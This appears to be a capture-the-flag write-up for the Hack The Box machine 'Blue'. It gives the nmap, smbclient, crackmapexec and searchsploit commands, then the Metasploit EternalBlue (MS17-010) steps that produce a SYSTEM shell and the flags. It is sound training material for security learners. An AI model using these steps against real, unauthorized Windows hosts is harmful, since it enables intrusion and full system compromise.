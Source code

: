 # Blue      

![Blue](./Screenshots/bluelogo.png)

## Solution

### Scan with nmap

Type:

```
nmap -sC -sV {target ip} -v
```

`-sC` - This flag tells Nmap to use the default set of scripts during the scan. These scripts are part of the Nmap Scripting Engine (NSE) and are used for tasks such as version detection, vulnerability detection, and more. Using -sC enhances the scan by providing additional information about the target.

`-sV` - Version detection. Nmap will try to determine the version of the services running on open ports. This is useful for identifying specific software and versions, which can help in assessing potential vulnerabilities.

`-v` - Enables verbose mode. Verbose mode provides more detailed output during the scanning process, allowing you to see more information about what Nmap is doing. This can be helpful for debugging and understanding the progress of the scan.

![nmap](./Screenshots/bluenmap.png)
![nmap](./Screenshots/bluenmap2.png)

Here are the descriptions of the open ports shown in the screenshots:

### **135/tcp (MSRPC)**
Microsoft Windows RPC service used for remote procedure calls.

### **139/tcp (NetBIOS-SSN)**
NetBIOS Session Service, used for sharing files/printers over a Windows network.

### **445/tcp (Microsoft-DS)**
SMB service on Windows 7 Professional SP1, part of the WORKGROUP domain.

### **49152-49157/tcp (MSRPC)**
Dynamic RPC ports used for additional Microsoft Windows RPC communication.

We can see that **SMB** is open.

### smbclient

First of all, it is always worth just searching the resources yourself, even if it does not give any result. Sometimes we can get interesting informations.

Type:

```
smbclient -L \\\\{target ip}\\ --no-pass
```

to see `Sharenames`.

![SMB](./Screenshots/bluesmb.png)

The only `Sharename` that we can fully access and contains something that looks interesting is `Users`.

To open it, type:

```
smbclient \\\\{target ip}\\Users --no-pass
```

![SMB](./Screenshots/bluesmb2.png)
![SMB](./Screenshots/bluesmb3.png)

I searched all of this using tools and there was nothing there that could really help.

Time to look for some **exploit**.

### crackmapexec

I typed:

```
crackmapexec smb {target ip}
```

![crackmapexec](./Screenshots/bluecrackmapexec.png)

**SMB Details**: 
   - `signing:False`: SMB signing is disabled, making it **vulnerable** to man-in-the-middle (MITM) attacks.
   - `SMBv1:True`: The server supports SMBv1, a protocol known for serious vulnerabilities like **EternalBlue**.

As machine name is **Blue** we know where we will hit.

**EternalBlue** is a critical exploit developed by the NSA and leaked by the Shadow Brokers in 2017, targeting a vulnerability in the **SMBv1 protocol** on Windows systems **(CVE-2017-0144)**. It allows remote code execution, enabling attackers to gain unauthorized access to vulnerable machines without authentication.

**EternalBlue** was famously used in large-scale cyberattacks like **WannaCry** and **NotPetya**.

### SearchSploit

```
searchsploit EternalBlue
```

![SearchSploit](./Screenshots/bluesearchsploit.png)

There are several exploits for this vulnerability.

Remember that our target system is **Windows 7**.

### Metasploit

In order:

```
msfconsole
```

```
search EternalBlue
```

![Metasploit](./Screenshots/bluemetasploit.png)

copy:

```
exploit/windows/smb/ms17_010_eternalblue
```

and type:

```
use exploit/windows/smb/ms17_010_eternalblue
```

then:

```
show options
```

![Metasploit](./Screenshots/bluemetasploit2.png)

We will have to set up `RHOST` and `LHOST`(as we are connected to **HTB** through **VPN**).

```
set LHOST {your tun0 ip}
```

```
set RHOST {target ip}
```

when it's done, type:

```
run
```

and press `Enter`.

![Metasploit](./Screenshots/bluemetasploit3.png)

We have a shell.

*If you want to have `Windows` shell type `shell` and press enter. I did it only after capturing the flags because I wanted to navigate through system by `Unix` commands as `Metasploit` makes it possible.*

![whoami](./Screenshots/bluewhoami.png)

We are **`nt authority\system`** - this is the most powerful account in Windows, even more privileged than the `Administrator` account. It has unrestricted access to all system resources, processes, files, and services.

### Get the user flag

The `user` flag is in the `C:\Users\haris\Desktop` path.

![flag](./Screenshots/blueuserflag.png)

### Get the root flag

`Root` flag is in the `C:\Users\Administrator\Desktop` path.

![flag](./Screenshots/bluerootflag.png)

### Paste the flags

![pwned](./Screenshots/bluepwned.png)